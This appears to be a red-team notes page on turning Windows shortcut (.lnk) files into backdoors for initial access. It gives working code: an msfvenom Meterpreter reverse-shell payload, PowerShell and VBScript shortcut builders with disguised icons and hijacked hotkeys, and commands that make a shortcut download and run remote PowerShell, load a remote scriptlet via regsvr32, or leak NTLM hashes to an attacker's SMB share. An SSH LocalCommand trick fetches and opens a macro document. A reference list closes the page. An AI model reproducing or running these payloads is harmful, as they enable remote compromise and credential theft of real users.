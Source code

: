 # Living off the Land

## 01 - Custom Icons

```
C:\Windows\System32\msi.dll
C:\Program Files (x86)\Microsoft Office\root\Office16\WINWORD.exe
```

## 02 - Generate Shortcut

### 2.1 - PowerShell

> [!NOTE] Characters Limit
> The **TargetPath** has a limit of 260 characters long. If you're using powershell payload then it's recommended to use `psh-cmd` format instead of `psh`, `psh-reflection`, and `psh-net`.

```
$ msfvenom -p windows/x64/meterpreter/reverse_https lhost=<IP> lport=<PORT> exitfunc=thread -f psh-cmd | sed 's/%COMSPEC% \/b \/c start \/b \/min powershell\.exe -nop -w hidden -e //g' | base64 -d > implant.ps1
```

TODO: Remove timestamps in the .lnk file

`$ cat pwsh_cmds.txt`

---

```powershell
$shortcutPath = "C:\Users\" + $Env:USERNAME + "\Desktop\mal.lnk"
$WshShell = New-Object -ComObject WScript.Shell
$Shortcut = $WshShell.CreateShortcut($shortcutPath)
$Shortcut.TargetPath = 'C:\Windows\System32\cmd.exe'
$Shortcut.Arguments = '/c regsvr32 /s /n /u /i:http://<IP>/implant.sct scrobj.dll'
# $Shortcut.TargetPath = 'conhost.exe'
# $Shortcut.Arguments = "--headless powershell.exe -nop -NonI -Nologo -w hidden -c `"IEX ((new-object net.webclient).downloadstring(`'http://<IP>/implant.ps1`'))`"`""
$Shortcut.Description = "A shortcut backdoor"
# $Shortcut.IconLocation = 'C:\path\to\icon.ico'
$Shortcut.IconLocation = 'shell32.dll,21'
$Shortcut.hotkey = 'CTRL+C' # A hotkey to trigger the payload
$Shortcut.WindowStyle = 7   # 1 - Normal, 3 - Maximized, 7 - Minimized
$Shortcut.WorkingDirectory = "C:\Users\" + $Env:USERNAME + "\Public"
$Shortcut.Save()
```

### 2.2 - VBScript

```vbscript
Set ObjectWScript = WScript.CreateObject("WScript.Shell")

' Arguments: target executable, target arguments, shortcut file
stringTargetPath = WScript.Arguments(0)
stringTargetArguments = WScript.Arguments(1)
ShortcutFile = WScript.Arguments(2)

Set objLink = ObjectWScript.CreateShortcut(ShortcutFile)

objLink.TargetPath = stringTargetPath
objLink.Arguments = stringTargetArguments
objLink.Description = "A shortcut backdoor"
' objLink.IconLocation = "shell32.dll,21"
objLink.WindowStyle = 7
' objLink.WorkingDirectory = "C:\Users\Public"
objLink.Save
```

To execute the script with `wine` by generating a shortcut `.lnk` file.

```
$ wine wscript '//Nologo' '//B' generate_lnk.vbs "C:\Windows\System32\conhost.exe" "--headless powershell.exe -nop -NonI -Nologo -w hidden -c ""IEX ((New-Object Net.WebClient).DownloadString('http[s]://<IP>:<PORT>/implant.ps1'))""" shortcut_file.lnk

$ wine wscript '//Nologo' '//B' generate_lnk.vbs "C:\Windows\System32\cmd.exe" "/c powershell.exe -nop -NonI -Nologo -w hidden -c ""IEX ((New-Object Net.WebClient).DownloadString('http[s]://<IP>:<PORT>/implant.ps1'))""" shortcut_file.lnk
```

## 03 - Use Cases

```
$ wine wscript '//Nologo' '//B' generate_lnk.vbs "C:\Windows\System32\conhost.exe" "--headless powershell -ep bypass -f implant.ps1" shortcut_file.lnk
```

### 3.2 - Capture NTLM Relay

```
$ wine wscript '//Nologo' '//B' generate_lnk.vbs "file://<attacker_IP>/@snare" "" file.lnk

$ wine wscript '//Nologo' '//B' generate_lnk.vbs "\\\\<attacker_IP>\\snare" "" file.lnk
```

Scriptlet file

```
$ wine wscript '//Nologo' '//B' generate_lnk.vbs "regsvr32" "/s /u /i://<attacker_IP>/@snare scrobj.dll" file.lnk
```

TODO: Provide use cases if any (refer to the link for SSH)

```
$ wine wscript '//Nologo' '//B' generate_lnk.vbs "ssh" "-i \\\\<attacker_IP>\\key.pem root@<IP>"
```

```
C:\Windows\System32\OpenSSH\ssh.exe -o "PermitLocalCommand=yes" -o "LocalCommand=scp <username>@<attacker_IP>:macro_document.doc %AppData%\Microsoft\Templates\macro_document.doc\. && %AppData%\Microsoft\Templates\macro_document.doc" <username>@<attacker_IP>
```

---
## References

### Backlinks

- [[01 - Capture Hashes via Spoof SMB Shares|Responder: Capture Hashes via Spoof SMB Shares Scenario]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xC - Client-Side Attacks/Authentication Relay/Metasploit|Metasploit: Capture Hashes]]

- [[HTA Web Server|Metasploit: HTA Web Server]]

- [[SMB Delivery|Metasploit: SMB Delivery]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xC - Client-Side Attacks/Delivery Methods/File Attachment/Web Drive-by/Linux/C2 Frameworks|Metasploit: Web Delivery]]

### Github

- [rvrsh3ll: Create-HotKeyLNK.ps1](https://github.com/rvrsh3ll/Misc-Powershell-Scripts/blob/master/Create-HotKeyLNK.ps1)

- [nobodyatall648: Malicious LNK File Abuse Hotkey Feature](https://github.com/nobodyatall648/Malicious-LNK-File-Abuse-Hotkey-Feature)

- [B00merang-Artwork: Windows 10](https://github.com/B00merang-Artwork/Windows-10)

### Hull1

- [Hull1.com: Customize Shortcut Icon](https://www.hull1.com/scriptit/2020/08/15/customize-shortcut-icon.html)

### Bordergate

- [Bordergate: Disguising Client Side Payloads](https://www.bordergate.co.uk/disguising-client-side-payloads/)

### Pentestlab

- [Pentestlab Blog: Persistence Shortcut Modification](https://pentestlab.blog/2019/10/08/persistence-shortcut-modification/)

### Hacking Articles

- [Hacking Articles: Windows Persistence Shortcut Modification](https://www.hackingarticles.in/windows-persistence-shortcut-modification-t1547/)

### DMCXBLUE

- [DMCXBLUE: Capturing Hashes](https://dmcxblue.net/2020/06/17/capturing-hashes/)

### Osanda

- [Osanda: Places of Interest in Stealing NetNTLM Hashes](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/)

### Assume Breach

- [Assume Breach: Using LNK Files To Bypass Applocker](https://assume-breach.medium.com/home-grown-red-team-using-lnk-files-to-bypass-applocker-3fb1ecae291f)

- [Assume Breach: LNK Phishing Revisited In 2023](https://assume-breach.medium.com/home-grown-red-team-lnk-phishing-revisited-in-2023-364daf70a06a)

- [Assume Breach: LNK Phishing In 2023 Revisited…Again](https://assume-breach.medium.com/home-grown-red-team-lnk-phishing-in-2023-revisited-again-2b8c885b9836)

### RedSiege

- [RedSiege: SSHishing – Abusing Shortcut Files and the Windows SSH Client for Initial Access](https://redsiege.com/blog/2024/04/sshishing-abusing-shortcut-files-and-the-windows-ssh-client-for-initial-access/)

### B4ckdoor

- [b4ckdoor: Is Macro Phishing Dead in 2024? — A Scheduled Task for Initial Access and Persistence using macro by Abusing Shortcut Files and SSH](https://b4ckdoor.medium.com/is-macro-phishing-dead-in-2024-56b7b4473a29)

### BadOption

- [BadOption: ZipLink - Combine Zips and Lnk for fun and profit](https://badoption.eu/blog/2023/09/28/ZipLink.html)